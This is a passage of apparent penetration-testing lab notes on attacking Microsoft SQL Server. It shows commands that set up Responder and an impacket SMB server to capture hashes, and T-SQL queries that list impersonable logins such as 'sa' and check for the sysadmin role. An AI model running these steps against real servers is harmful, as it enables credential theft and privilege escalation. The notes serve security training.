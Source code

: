 We can set up listening server as the following.

Set up responder:

```shell-session
sudo responder -I tun0
```

Set up impacket:

```shell-session
sudo impacket-smbserver share ./ -smb2support
```

## User Impersonation

`IMPERSONATE` allows attacker to execute commands with another user permission. 

Let's first identify users we can impersonate:

```cmd-session
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO

name
-----------------------------------------------
sa
ben
valentin

(3 rows affected)
```

 One liner:

```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```

To make sure, let's verify if the current user got the sysadmin role. Since the output is 0, we don't have the role:


```cmd-session
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go

-----------
julio                                                                                                                    

(1 rows affected)

-----------
          0

(1 rows affected)
```
